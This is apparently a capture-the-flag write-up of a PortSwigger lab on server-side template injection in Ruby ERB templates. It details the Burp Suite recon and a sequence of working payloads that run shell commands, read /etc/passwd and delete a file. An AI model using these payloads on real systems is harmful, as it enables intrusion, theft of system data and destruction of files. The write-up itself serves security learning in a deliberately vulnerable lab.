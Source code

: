 🔖 Challenge Info

    Challenge Name: Basic Server-Side Template Injection

    Category: Web Exploitation

    CTF Platform: PortSwigger

    Date Solved: 2025-05-05

📜 Challenge Description

    This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB      template.
    
    To solve the lab, review the ERB documentation to learn how to execute arbitrary Ruby code, then       delete the morale.txt file from Carlos's home directory.

🔍 Recon & Exploitation Steps

    🔹 Understanding the Syntax
        I began by researching ERB (Embedded Ruby) syntax and how it processes template code. From the         documentation, I learned:

            <%= ... %> evaluates Ruby code and outputs the result.

            <% ... %> evaluates the code silently (no output).

        This is important when testing for SSTI.
    🔹 Finding Injection Points

    I visited the lab's web application and clicked on a product. The URL looked like this:

        https://0a21007604d9d4ffaa4126020086007f.web-security-academy.net/product?productId=2

    I tried injecting ERB syntax directly into the URL, such as:

        <%= 7 * 7 %>

    However, nothing happened — no code execution or errors were visible.
    🔹 Deeper Testing Using Burp Suite

        I used Burp Suite to inspect traffic between the browser and the server:

        Browsed the site normally while Burp was capturing traffic.

        Reviewed the HTTP history for interesting parameters.

        Found a request that contained a message field displaying:
        "Unfortunately this product is out of stock."

        This message hinted at dynamic rendering, so I sent the request to Burp Repeater for testing.
    🔹 Successful Injection

    Inside Burp Repeater, I modified the message parameter:

        Test: <%= 7 * 7 %>
        ✅ Response returned 49, confirming SSTI vulnerability.

        Test: <%= system("whoami") %>
        ✅ Returned the current user name.

        Test: <%= system("ls") %>
        ✅ Listed files, including morale.txt.

        Test: <%= system("rm morale.txt") %>
        ❌ Did not delete the file.

        Test: <%= system("pwd") %>
        ✅ Returned /home/carlos.

        Test: <%= system("rm /home/carlos/morale.txt") %>
        ❌ Still did not delete the file.

    🔹 Reading and Deleting the File with Ruby Functions

        Since system("rm ...") wasn’t working, I switched to Ruby-native functions:

        Test: <%= File.read("/etc/passwd") %>
        ✅ Successfully read the file — confirmed file access via Ruby.

        Final Payload: <%= File.delete("morale.txt") %>
        ✅ Success! File deleted. Lab marked as solved.

🏁 Flag

    (No flag was provided — solving the lab by deleting the file completes the challenge.)

